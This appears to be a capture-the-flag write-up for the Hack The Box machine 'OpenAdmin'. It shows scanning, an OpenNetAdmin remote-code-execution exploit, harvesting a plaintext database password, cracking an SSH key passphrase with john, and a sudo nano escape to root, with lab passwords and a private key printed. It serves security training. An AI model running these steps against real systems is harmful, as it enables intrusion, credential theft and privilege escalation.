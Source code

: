 # OpenAdmin

<table>
  <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>04 Jan 2020</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.171</td>
  </tr>
</table>

## Foothold

To begin, we will add the entry `10.10.10.171 openadmin.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV openadmin.htb
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this we see that SSH and HTTP are open. If we try to browse to `http://openadmin.htb`, we see the default Apache2 page. From here, we will attempt some enumeration.

```
# dirb http://openadmin.htb/ /usr/share/wordlists/dirb/common.txt
...
---- Scanning URL: http://openadmin.htb/ ----
==> DIRECTORY: http://openadmin.htb/artwork/
+ http://openadmin.htb/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://openadmin.htb/music/
+ http://openadmin.htb/server-status (CODE:403|SIZE:277)
...                 
```

From this, we see the index page we already found and two directories: `artwork` and `music`. After skimming through the index pages for these directories we see a login link on `music` which goes to the OpenNetAdmin console. What jumps out on this page is the warning about a newer version available. This hints that there is a vulnerability so we can attempt to find an exploit for `v18.1.1`.

![](images/ona.png)

```
# searchsploit opennetadmin
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Ex | exploits/php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Remote Code Exec | exploits/php/webapps/47691.sh
--------------------------------------- ----------------------------------------
```

There is actually an exploit for the exact version we have and with it we can achieve remote code execution. The script is in DOS mode so we have to quickly convert it so that it runs properly.

```
# dos2unix 47691.sh 
dos2unix: converting file 47691.sh to Unix format...
# ./47691.sh http://openadmin.htb/ona/
$ whoami
www-data
$ pwd
/opt/ona/www
```

## User

We are now a low level user account that is running the OpenNetAdmin service. From here we will have to enumerate further. We will attempt to search the files for interesting data.

```
$ grep -iR passwd *
...
local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!'
...
$ cat local/config/database_settings.inc.php
...
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
'db_database' => 'ona_default',
'db_debug' => false,
...
```

We find our first password, `n1nj4W4rri0R!`. Perhaps, whoever created this password reuses it as their system password. Let's try to find the other users on the system.

```
$ ls /home
jimmy
joanna
```

The other users on the system are Jimmy and Joanna. Now, we can try to SSH into their accounts using the password we found.

```
# ssh jimmy@openadmin.htb
jimmy@openadmin.htb's password: 
jimmy@openadmin:~$
```

Sure enough, Jimmy reused his user password in the database! Since we don't see `user.txt`, we assume that we still have to traverse and get into Joanna's account somehow. Since Jimmy's home directory is empty, there must be important files elsewhere on the system. Because he set up OpenNetAdmin, it's likely he does other administrative work on the box.

```
jimmy@openadmin:~$ find / -user jimmy 2>/dev/null
...
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
```

We notice an interesting directory in `/var/www/`. The web server we looked at before is `/var/www/ona` and this directory is `/var/www/internal`. This suggests a separate web server hosted on the machine that can only be accessed on the inside.

If we start to look at the three files inside, we see that `index.php` is a login page, `logout.php` is obviously the logout page, and `main.php` is the main content. The important part though is that `main.php` is especially valuable. Let's see this important file:

```php
...
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
...
```

This page outputs Joanna's private key! If we get this, we can possibly crack it and SSH as Joanna. In order to run this file, we need to figure out which port it is on which is in its configuration file.

```
jimmy@openadmin:~$ cat /etc/apache2/sites-available/internal.conf 
Listen 127.0.0.1:52846
...
jimmy@openadmin:~$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Now that we have her private key, we can crack it using `john` and SSH to her account.

```
# ssh2john id_rsa > hash.txt
# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
...
```

Now that we have the password that's encrypting Joanna's private key, we can SSH as her and get the flag.

```
# chmod 600 id_rsa
# ssh -i id_rsa joanna@openadmin.htb
Enter passphrase for key 'id_rsa':
...
joanna@openadmin:~$ cat user.txt
c9b2cf**************************
```

## Root

Since the machine is on the latest version of Ubuntu, it is unlikely that there is a kernel privilege escalation exploit. Let's see if Joanna is allowed to run any programs as root.

```
$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Joanna is able to edit `/opt/priv` with `nano` as root without a password. We can now use [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) in order to gain a shell as root and get the flag.

```
$ sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2f907e**************************
```

